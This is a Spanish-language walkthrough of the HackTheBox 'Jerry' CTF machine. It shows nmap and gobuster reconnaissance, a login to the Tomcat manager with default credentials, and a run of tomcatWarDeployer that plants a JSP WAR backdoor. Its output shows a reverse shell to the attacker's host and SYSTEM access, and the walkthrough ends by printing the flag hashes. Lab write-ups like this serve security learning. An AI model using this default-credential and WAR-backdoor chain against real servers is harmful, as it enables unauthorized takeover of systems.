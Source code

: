 # HackTheBox JERRY Walkthrough

## Introducción 

Jerry es una máquina virtual de tipo CTF suministrada por HackTheBox creada por "mrh4sh". Esta basada en Microsoft Windows OS, en esta ocasión mostraré los pasos que tome para comprometer la maquina.

## Recolección de información

```
[mcruz@lilo ~]# export ip=10.10.10.95
[mcruz@lilo ~]# nmap -sC -sS -sV -A $ip
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7|Vista (91%)

```
Podemos ver en la salida de nmap el puerto 8080 esta abierto corriendo Apache Tomcat/Coyote JSP engine 1.1, con una posible version de Windows (Microsoft Windows 2012|2008|7|Vista).

Si entramos a la dirección http://10.10.10.95:8080 se puede notar una instalación por defecto de Apache Tomcat/7.0.88, procedemos a correr gobuster en busca de directorios que puedan servirnos.


```
[mcruz@lilo ~]# gobuster -u http://$ip:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 

```
Esto nos da una lista de directorios encontrados, el que nos interesa es el “/manager”

Poniendo los credenciales “admin:admin” no resulto, leyendo el error pude darme cuenta de los passwords por defecto que utiliza la aplicación, trate con “admin:s3cret” y todo funciona.

Luego de la información obtenida con nmap y gobuster, buscamos un exploit para el Apache Tomcat/Coyote JSP engine 1.1. Con searchsploit no obtuve ningun resultado, buscamo en GOOGLE de la siguiente manera: "exploit tomcat war file". En caso de no tener conocimiento de que son los archivos WAR  -- https://en.wikipedia.org/wiki/WAR_(file_format) -- 

Usando metasploit es posible con el tomcat_mgr_upload, pero para esta maquina no tuve exito.

Encontré https://github.com/mgeeky/tomcatWarDeployer una herramienta para pwning WAR de tomcat muy funcional. Leyendo el manual de ayuda pude identificar las opciones a utilizar.

```
[mcruz@lilo ~]# git clone https://github.com/mgeeky/tomcatWarDeployer
[mcruz@lilo ~]# cd tomcatWarDeployer
[mcruz@lilo ~]# python tomcatWarDeployer.py -v -x -p 5555 -H 10.10.14.8 10.10.10.95:8080
INFO: Reverse shell will connect to: 10.10.14.8:5555.
DEBUG: Browsing to "http://10.10.10.95:8080/"... Creds: "tomcat:s3cret"
DEBUG: Trying to fetch: "http://10.10.10.95:8080/"
DEBUG: Probably found something: Apache Tomcat/7.0.88
DEBUG: Trying to fetch: "http://10.10.10.95:8080/manager"
DEBUG: Probably found something: Apache Tomcat/7.0.88
DEBUG: Apache Tomcat/7.0.88 Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmp94hvDg"
DEBUG: Working with Java at version: 1.8.0_144
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 505) (out= 254)(deflated 49%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 69) (out= 68)(deflated 1%)
adding: index.jsp(in = 4493) (out= 1682)(deflated 62%)
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://10.10.10.95:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmp94hvDg"
DEBUG: Succeeded, invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 10.10.14.8:5555
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://10.10.10.95:8080/jsp_app/"
DEBUG: Adding 'X-Pass: K3n50PKbr0mp' header for shell functionality authentication.
DEBUG: Incoming client: 10.10.10.95:49200
DEBUG: Application invoked correctly.
INFO: JSP Backdoor up & running on http://10.10.10.95:8080/jsp_app/
INFO: Happy pwning. Here take that password for web shell: 'K3n50PKbr0mp'
INFO: Connected with: nt authority\system@JERRY

C:\apache-tomcat-7.0.88> whoami
nt authority\system


```
Esto nos dará una shell de Windows con altos privilegios "nt authority\system", lo que quiere decir que no tenemos que escalar privilegios.

```
C:\apache-tomcat-7.0.88> dir C:\Users\Administrator\Desktop\ 
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes

```
```
C:\apache-tomcat-7.0.88> dir C:\Users\Administrator\Desktop\flags *.txt
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               0 File(s)              0 bytes

```
El archivo que buscamos es 2 for the price of 1.txt, al tener espacios debemos mostrar su contenido con las comillas.

```
C:\apache-tomcat-7.0.88> type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>

```




Con esto ya tenemos los has del usuario normal y el usuario root, los cuales tendremos que suministrar en HackTheBox.




**AUTOR:**

```
Michael Cruz Sánchez
Academia Código Libre Dominicano Junio 2018
<superlinux.michael5> at <gmail.com>

```



